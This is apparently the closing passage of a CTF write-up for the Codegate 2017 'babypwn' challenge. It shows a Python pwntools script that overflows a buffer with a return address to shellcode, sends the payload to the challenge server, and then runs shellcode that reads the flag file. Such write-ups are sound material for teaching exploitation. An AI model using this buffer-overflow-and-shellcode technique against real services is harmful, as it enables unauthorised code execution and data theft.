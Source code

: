```

buf_2 += p32(0x0804b004)    # return to shellcode
buf_2 += "D"*200

payload = buf_1 + buf_2

r = remote("110.10.212.130", 8889)

r.recvuntil("Select menu > ")

r.sendline("2")
r.recvuntil("Input Your Message : ")

r.send(payload)
r.recvuntil("Select menu > ")

r.sendline("3")
d = r.recv()

# read the contents of file flag 
sc = asm(shellcraft.linux.cat("flag", 4))
r.send(sc)
print "Getting flag:", r.recvall()
```

Win!!!

![](/images/2017/codegate/babypwn/07.png)
